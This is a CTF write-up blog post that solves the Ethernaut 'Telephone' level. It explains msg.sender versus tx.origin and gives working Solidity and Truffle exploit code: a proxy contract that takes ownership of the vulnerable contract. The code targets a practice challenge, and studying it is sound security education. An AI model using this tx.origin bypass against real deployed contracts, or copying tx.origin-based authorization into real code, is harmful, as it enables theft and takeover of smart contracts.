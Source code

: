 Title: Solving Zeppelin's Ethernaut CTF - Telephone
Date: 2018-06-10 18:20
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-telephone
Summary: Fifth post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. We claim ownership of the Telephone contract by first understanding the difference between the sender and origin of Ethereum transactions.

## Introduction
The Telephone contract challenge is far from being the hardest or most complex of all, but through solving it we will dig a bit deeper in how Ethereum works internally. Not so much to say here, so just go and [read the challenge](https://ethernaut.zeppelin.solutions/level/0x6b7b4a5260b67c1ee9196a42dd1ed8633231ba0a){:target="_blank",:rel="noopener"}.

## The Telephone Contract
Our objective is to claim ownership of the contract. According the the constructor's code, the deployer is the first owner.
~~~solidity
function Telephone() public {
    owner = msg.sender;
}
~~~

Anybody with intentions to become the new owner must call the public `changeOwner` function passing the address as an argument:
~~~solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
}
~~~
Doesn't seem so difficult, except for that `if` clause. Let's see what it means.

Among the available global variables in Solidity, there're two which can be a bit confusing at first: `msg.sender` and `tx.origin`. Up until now, we've only seen and used `msg.sender` to reference the caller's address. However, while [solving the Coinflip challenge](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-coinflip), we learned that public functions can be called both from 'outside' the blockchain (i.e. from an externally owned account) or 'inside' the blockchain (from another contract's code).
Moreover, we stated that while all **transactions** are originated by an EOA, contracts can send messages to each other, those messages being all included in the same transaction which triggered the whole call chain.

As a result, in Solidity there are two different global variables to reference each of those cases. On the one hand, `msg.sender` references the actual caller (the last caller in the call chain) of the function. It could be an EOA or a contract address.

On the other hand, `tx.origin` indicates the address of the EOA that gave origin to the whole transaction.

For instance, imagine that the externally owned account 'A' calls a function in contract 'B' which calls a function in contract 'C'. This super complex call chain results in: A -> B -> C. In B's code, `tx.origin` and `msg.sender` would be the same: the address of A. Conversely, in C's code, `tx.origin` and `msg.sender` would be different: while `msg.sender` would be B's address, `tx.origin` would equal A's address.

All of this means that, to become the owner of Telephone, an attacker cannot simply call the `changeOwner` public function from his/her EOA. Were he/she to do that, `tx.origin` would always equal `msg.sender` (your address), thus the `if` clause would never be true.

Instead, the solution relies on deploying a new 'proxy' contract (just like we did in the Coinflip challenge) controlled by the attacker (us), which will be in charge of calling the `changeOwner` function of `Telephone` contract and become its owner on the attacker's behalf.

## The exploit

Let's first write the `TelephoneAttack` contract code. Note its similarities with the [`CoinflipAttack` contract](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/CoinFlipAttack.sol){:rel="noopener"} we saw in the previous post. The same observations we highlighted in that one apply here as well.

~~~solidity
pragma solidity ^0.4.18;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone public victimContract;

    function setVictim(address _addr) public {
        victimContract = Telephone(_addr);
    }

    function changeOwner(address _owner) public {
        victimContract.changeOwner(_owner);
    }
}
~~~

Once you added `Telephone.sol` and `TelephoneAttack.sol` to the `contracts` folder of your project, write the necessary code (see below) to deploy both of them to the blockchain in `migrations/2_deploy_contracts.js`. Then run `truffle migrate`.

~~~javascript
let Telephone = artifacts.require('./Telephone.sol')
let TelephoneAttack = artifacts.require('./TelephoneAttack.sol')
module.exports = deployer => {
    deployer.deploy(Telephone)
    deployer.deploy(TelephoneAttack)
}
~~~

Inside your `exploits` folder, create a file called `telephone.exploit.js`. As always, follow the same code structure used for the previous exploits:

~~~javascript
const TelephoneContract = artifacts.require('Telephone')
const TelephoneAttackContract = artifacts.require('TelephoneAttack')
const assert = require('assert')

async function execute(callback) {
    let victimContract = await TelephoneContract.deployed()
    let proxyContract = await TelephoneAttackContract.deployed()

    // Set the victim's address
    proxyContract.setVictim(victimContract.address)
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker account is ${attackerAccount}`)

    // Check original owner
    let contractOwner = await victimContract.owner.call()
    console.log(`Original owner ${contractOwner}`)

    callback()
}
module.exports = execute
~~~

Changing the owner is just a matter of calling our malicious contract's `changeOwner` function from our attacker account. Then verify that the ownership was succesfuly changed:
~~~javascript
// Change owner
await proxyContract.changeOwner(attackerAccount, {
    from: attackerAccount
})

// Check final owner
contractOwner = await victimContract.owner.call()
assert.equal(contractOwner, attackerAccount)
console.log(`New owner ${contractOwner}`)
~~~

Now run `truffle exec exploits/telephone.exploit.js` and that's it! Challenge passed.

See the [full code of the exploit](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/telephone.exploit.js) and the [attacker contract code](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/TelephoneAttack.sol).

Thanks for reading!. For the [next post](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-token/), be ready to **steal some ethers** from a basic token contract and pass the [Token challenge](https://ethernaut.zeppelin.solutions/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"}.
